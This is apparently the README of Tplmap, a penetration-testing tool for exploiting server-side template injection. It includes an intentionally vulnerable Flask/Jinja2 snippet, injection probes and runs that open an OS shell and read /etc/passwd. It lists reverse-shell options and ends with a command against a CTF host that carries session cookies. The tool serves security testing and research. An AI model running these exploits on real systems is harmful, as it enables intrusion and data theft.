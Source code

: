 Tplmap
======

Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.

The tool and its test suite are developed to research the SSTI vulnerability class and to be used as offensive security tool during web application penetration tests.

The sandbox break-out techniques came from James Kett's [Server-Side Template Injection: RCE For The Modern Web App][10], other public researches [\[1\]][1] [\[2\]][2], and original contributions to this tool [\[3\]][3] [\[4\]][4].

It can exploit several code context and blind injection scenarios. It also supports _eval()_-like code injections in Python, Ruby, PHP, Java and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][12] that uses [Jinja2][11] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    # The vulnerability is introduced concatenating the
    # user-provided `name` variable to the template string.
    output = Jinja2.from_string('Hello ' + name + '!').render()
    
    # Instead, the variable should be passed to the template context.
    # Jinja2.from_string('Hello {{name}}!').render(name = name)

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap supports over 15 template engines, unsandboxed template engines and generic _eval()_-like injections.

| Engine                 | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|------------------------|---------------|-------------------|-----------------|-----------|------------|
| Mako                   | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (code eval)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Tornado                | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks               | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Pug                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (code eval) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓        | JavaScript      |  ✓        |  ✓         |
| EJS                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Ruby (code eval)       | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Slim                   | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| ERB                    | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Smarty (unsecured)     | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (code eval)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Twig (<=1.19)          | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity               | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig (>1.19)           | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)       | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0) | × | ×          | ×               | ×         | ×          |


Burp Suite Plugin
-----------------

See [burp_extension/README.md](burp_extension/README.md).

[10]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[11]: http://jinja.pocoo.org/
[12]: http://flask.pocoo.org/
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/

## run with post data

```
./tplmap.py --os-shell -u 'http://ssti1.ctf.antichat.com/' -c 'Cookie: __cfduid=*' -c 'session=eyJjc3JmX3Rva2VuIjoiZWU5ZmE1MjhhMmVjNTg5NDdiZjk2ZTZmYTg3MmMxYzVlYThiZGYwOSJ9.Ech9Rg.vRHe1pFSnF0tBUpuFYzttwxlghU' -d 'csrf_token=ImVlOWZhNTI4YTJlYzU4OTQ3YmY5NmU2ZmE4NzJjMWM1ZWE4YmRmMDki.Ech9Rg.TjsaeHlhRFoyJSOVCzyEAmAIc9E&login=7'
```
